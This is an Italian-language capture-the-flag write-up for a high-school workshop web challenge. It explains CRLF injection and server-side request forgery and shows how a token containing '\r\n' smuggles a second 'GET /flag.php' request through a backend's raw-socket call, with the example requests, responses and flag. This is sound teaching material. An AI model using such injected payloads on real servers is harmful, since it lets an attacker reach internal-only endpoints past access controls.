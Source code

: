 # 4th HighSchools CTF Workshop - Perugia 2023

## [web] The Backend

Il sito è scritto in PHP e al suo interno sono presenti 3 pagine: `index.php`, `token.php` e `flag.php`.

La pagina `index.php` contiene un form che permette di inserire un token e inviarlo al backend.

La pagina `token.php` contiene il codice che viene eseguito dal backend e che si occupa di validare il token.

La pagina `flag.php` contiene la flag che viene visualizzata soltanto se la richiesta proviene dal backend stesso.

## Vulnerabilità

### Carriage Return Line Feed Injection (CRLF Injection)

La CRLF injection è una vulnerabilità che permette di iniettare dei caratteri di ritorno a capo (`\r\n`) all'interno di una richiesta HTTP.  
Lo scopo di questa vulnerabilità è quello di injectare header HTTP aggiuntivi (ad esempio `X-Forwarded-For` per simulare un IP proxato differente oppure `Host` per visualizzare un vhost differente).  
Nelle richieste HTTP/1.1 e HTTP/2 è possibile utilizzare la CRLF injection per far eseguire più richieste HTTP in una singola connessione.

### Server Side Request Forgery (SSRF)

Spesso alcuni backend per poter funzionare devono effettuare delle richieste HTTP ad altri backend.  
L'SSRF è una vulnerabilità che consiste nel manipolare le chiamate effettuate verso altri backend per eseguire richieste arbitrarie o differenti da quelle previste.  
Molti backend permettono le chiamate soltanto a determinati indirizzi IP sorgenti (es 127.0.0.1) e non hanno altri sistemi di autenticazione.  
Mediante SSRF si fanno eseguire richieste a backend autorizzati e utilizzando il loro IP sorgente (o eventuali sistemi di autenticazione automaticamente caricati ad ogni richiesta) è possibile aggirate i controlli di autenticazione.

## Soluzione

L'interfaccia grafica come da descrizione permette all'utente di inserire un token.  
Il token viene inviato ad altri backend che lo validano e restituiscono un risultato.  
Il punto è che la richiesta agli altri backend viene fatta senza librerie esterna, ma utilizzando direttamente i socket a basso livello.

Inviando come token un qualcosa tipo `testtoken` possiamo immaginare venga effettuata una richiesta di questo tipo (i `\r\n` sono stati aggiunti per leggibilità):

<pre>
GET /token.php HTTP/1.1<i>\r\n</i>
Host: localhost<i>\r\n</i>
X-API-Token: <span style="color: red">testtoken</span><i>\r\n</i>
Connection: close<i>\r\n\r\n</i>

</pre>

Le librerie esterne avrebbero gestito la formattazione degli header (in particolare "X-API-Token") garantendo che non ci siano problemi di injection.  
Usando però i socket a basso livello, in mancanza di controlli o sanitizzazione, possiamo fare injection di header inserendo dei `\r\n` (ritorni a capo) all'interno del token (questa vulnerabilità è nota come `CRLF` injection).  
Inviando un token del tipo `testtoken\r\nX-Test: 1234567890` possiamo immaginare venga effettuata una richiesta di questo tipo:

<pre>
GET /token.php HTTP/1.1<i>\r\n</i>
Host: localhost<i>\r\n</i>
X-API-Token: <span style="color: red">testtoken<i>\r\n</i>
X-Test: 1234567890</span><i>\r\n</i>
Connection: close<i>\r\n\r\n</i>

</pre>

Visitando manualmente la pagina `/flag.php` notiamo che la richiesta viene rifiutata in quanto non effettuata da localhost.  
Dobbiamo dunque sfruttare una vulnerabilità di SSRF (Server Side Request Forgery) per far eseguire una chiamata a `/flag.php` dal server stesso.

Per farlo possiamo sfruttare la CRLF injection per far eseguire al server due chiamate in sequenza anziché una sola.  
Inviando dunque un token del tipo `testtoken\r\n\r\nGET /flag.php HTTP/1.0`, graficamente:

```
testtoken

GET /flag.php HTTP/1.0
```

Possiamo immaginare venga effettuata una chiamata di questo tipo:

<pre>
GET /token.php HTTP/1.1<i>\r\n</i>
Host: localhost<i>\r\n</i>
X-API-Token: <span style="color: red">testtoken<i>\r\n\r\n</i>

GET /flag.php HTTP/1.0</span><i>\r\n</i>
Connection: close<i>\r\n\r\n</i>

</pre>

Andando così ad eseguire due richieste HTTP in una singola connessione possiamo eseguire chiamate arbitrarie dal server stesso, la cui risposta sarà:

<pre>
<span style="color: green">HTTP/1.1 200 OK
Date: Sat, 18 Nov 2023 13:31:53 GMT
Server: Apache/2.4.58 (Unix) PHP/8.2.12
X-Powered-By: PHP/8.2.12
Content-Length: 36
Content-Type: text/html; charset=UTF-8

Hello user, your token is: testtoken</span><span style="color: red">HTTP/1.1 200 OK
Date: Sat, 18 Nov 2023 13:31:53 GMT
Server: Apache/2.4.58 (Unix) PHP/8.2.12
X-Powered-By: PHP/8.2.12
Content-Length: 42
Connection: close
Content-Type: text/html; charset=UTF-8

flag{SSRF_this_CRLF_that_vulns_everywhere}</span>
</pre>

**Nota1**: passando come token soltanto `testtoken\r\n\r\nGET /flag.php` (senza la versione HTTP o altri header) la richiesta viene eseguita seguendo gli standard `HTTP 0.9`, pertanto la seconda risposta non conterrà gli header e sarà concatenata direttamente alla precedente:

<pre>
<span style="color: green">HTTP/1.1 200 OK
Date: Sat, 18 Nov 2023 13:31:53 GMT
Server: Apache/2.4.58 (Unix) PHP/8.2.12
X-Powered-By: PHP/8.2.12
Content-Length: 36
Content-Type: text/html; charset=UTF-8

Hello user, your token is: testtoken</span><span style="color: red">flag{SSRF_this_CRLF_that_vulns_everywhere}</span>
</pre>

**Nota2**: il server esegue la chiamata utilizzando `HTTP/1.1` il quale prevede la possibilità di mantenere la connessione aperta per più richieste. Se avesse utilizzato `HTTP/1.0` la connessione sarebbe stata chiusa dopo la prima richiesta e la seconda non sarebbe stata eseguita. Un raro caso di "security by obsolescence", ma valido soltanto per l'SSRF, non per la CRLF injection.
